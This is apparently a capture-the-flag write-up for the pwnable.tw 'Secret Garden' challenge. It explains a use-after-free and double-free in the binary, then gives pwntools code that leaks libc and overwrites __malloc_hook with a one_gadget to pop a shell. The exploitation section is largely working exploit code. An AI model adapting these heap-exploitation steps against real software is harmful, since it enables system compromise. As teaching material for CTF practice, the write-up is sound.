# pwnable.tw - Secret Garden

Original challenge link: https://pwnable.tw/challenge/#12

You can as well download challenge file in my repo: [secretgarden.zip](secretgarden.zip)

There will have 2 files in zip:
- secretgarden
- libc_64.so.6

Download and extract, then use `pwninit` to patch libc to binary. After patching, we know libc's version is 2.23.

# 1. Find bug

First, checking all the defences of binary and we know all of them are on:

```bash
$checksec secretgarden
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

Next, we'll decompile the file to get the main flow. At first, all the functions are stripped so I renamed some of them as follow. The first function is main():



It just call init function and read option number, then jump to corresponding function. The next function is raise_a_flower(). It will check if flowers are more than 99 or not and if it is, we are not allowed to create more. Otherwise, the program will create an object of flower:



Then it asks for length of name, the name of flower and color of it. After that, it set the bit of flower INUSE to 1, which means this flower is in the garden:


And finally add this flower object to a global array and increase the number of flower. With regard to function visit_garden(), it will print the name and color of all flowers which have bit INUSE on:



The next function is remove_a_flower(). It will read the index of flower with format string `%d` to an unsigned int variable so there will not have out-of-bound bug. It then will check if index is lower than `0x63` or not and also check if there is object of flower at that index or not:



If these 2 check are satisfied, it will set bit INUSE of flower at index to null to show that this flower is removed from garden, then it free the heap buffer of name of flower without removing that buffer out of object --> Maybe we have **Use After Free** bug here.

Wait a minute, doesn't it check bit INUSE when free? No, it doesn't. Hence, we can free the same buffer twice if we want --> **Double Free**

Keep going with the last function clean_garden(), it will remove all the flower objects if their bit INUSE are off. It reduce the number of flower too while cleaning the garden:



That's all bug we can find. Let's move on!

# 2. Idea

We have **Double free** bug in fastbin, which means we can overwrite the forward pointer of a freed chunk and make it point to another address we want if there is a fake chunk with size at that address --> **Arbitrary write**. With the ability to write everywhere we want, we can overwrite the pointer name of flower to the known address to leak data --> **Arbitrary read**.

Because libc version of current chall is 2.23, which mean tcache is disable or not available, overwrite forward pointer and malloc to write to the address we want (such as `__malloc_hook`, `__free_hook`) might be hard. After a while looking on [how2heap](https://github.com/shellphish/how2heap/tree/master/glibc_2.23), I found a useful technique called `House of Roman`. 

This is a leakless technique which requires some bruteforce but luckily, we can leak the address of libc easily so attack with this way will be posible and in a short time.

Summary:
- Stage 1: Leak libc address
- Stage 2: Attack `__malloc_hook`

# 3. Exploit

Before we start our exploitation, I wrote some functions to help us easier in exploiting:

```python
def raise_flower(length, name, color):
    p.sendlineafter(b' : ', b'1')
    p.sendlineafter(b' :', str(length).encode())
    p.sendafter(b' :', name)         # name use read()
    p.sendlineafter(b' :', color)    # color use scanf()

def visit_garden():
    p.sendlineafter(b' : ', b'2')

def remove_flower(idx):
    p.sendlineafter(b' : ', b'3')
    p.sendlineafter(b':', str(idx).encode())

def clean_garden():
    p.sendlineafter(b' : ', b'4')
```

### Stage 1: Leak libc address

To leak libc, we will use a well-known way for this. We will free a chunk to make it go to unsorted bin and then malloc again, the address of main arena will still exist in that chunk when we malloc and with read(), no null byte added, we can concate our input with the libc address in chunk to obtain the libc base address:

```python
raise_flower(0x420, b'0'*8, b'0'*8)
raise_flower(0x420, b'1'*8, b'1'*8)     # Avoid consolidation
remove_flower(0)

raise_flower(0x400 - 0x10, b'2'*8, b'2'*8)

visit_garden()
p.recvuntil(b'2'*8)
libc_leak = u64(p.recv(6) + b'\x00\x00')
log.info("Libc leak: " + hex(libc_leak))
libc.address = libc_leak - 0x3c3b78
log.info("Libc base: " + hex(libc.address))
```

This is when we `remove_flower(0)`, which is free a chunk with size of `0x430` and will put it in unsorted bin:



And the data of this chunk when it's in unsorted bin are:



Let's make the script execute the command `raise(0x400 - 0x10...` to see the changes in that chunk:



The chunk above is for object flower, the chunk below with size `0x400` is for name of flower. What will happen when we input just 8 byte without null byte at the end:



So our input concated with address of libc main arena. Therefore, we leaked libc base address.

### Stage 2: Attack `__malloc_hook`

As the exploit of technique `House of Roman` show us, we can see that at `__malloc_hook` and higher addresses don't have any address we can use:



But if there are addresses, we cannot use that. We will check if there are any addresses in the lower place:



So we will want to find a size for fake chunk here. As the idea of `House of Roman` shown, we will use the byte `0x7f` of an address as size for a fake 0x70-byte chunk (included metadata):



We take the byte `0x7f` out in an 8-byte aligned:



That byte is in prev_size, not size, so we add 8 to move that byte to size of a fake chunk:



So the address we want to malloc, more accurately, the address we want to overwrite forward pointer of a chunk after **Double Free** is `0x155555328afd`.

The size of our fake chunk is `0x7f` but due to misalignment, the program will understand this chunk has size of `0x70` (included metadata), we will want to double free a 0x70-byte chunk (included metadata) to have malloc work. The script for freeing a chunk twice as follows:

```python
raise_flower(0x68, b'3'*8, b'3'*8)
raise_flower(0x68, b'4'*8, b'4'*8)
remove_flower(3)
remove_flower(4)
remove_flower(3)
```

And when we malloc a chunk with the size of `0x68`, we can overwrite the forward pointer to the address of our fake chunk above `0x155555328afd`, but address of forward pointer of fastbin included metadata so the correct address we want to overwrite is `0x155555328afd - 0x10 = 0x155555328aed`, which can be calculated as `<address-of-malloc-hook> - 0x23`:

```python
raise_flower(0x68, p64(libc.sym["__malloc_hook"] - 0x23), b'6'*8)
raise_flower(0x68, b'7', b'7'*8)
raise_flower(0x68, b'8', b'8'*8)
```

When we overwrote the forward pointer, we can see the last chunk is our fake chunk:



So malloc the next chunk will give us control to `__malloc_hook`:

```python
payload = flat(
    b'A'*11, 
    libc.sym['one_gadget'],           # Overwrite __realloc_hook
    libc.sym['__libc_realloc']+20,    # Overwrite __malloc_hook
    )
raise_flower(0x68, payload, b'9'*8)
```

Because just `__malloc_hook` cannot satisfy the one gadget constraints so we need to set `__malloc_hook` to `__libc_realloc + 20` first and when it see `__realloc_hook` is not null, it will execute one gadget for us.

And finally, just make the program execute malloc again and we will get shell:

```python
p.sendlineafter(b' : ', b'1')
p.interactive()
```

Full script: [solve.py](solve.py)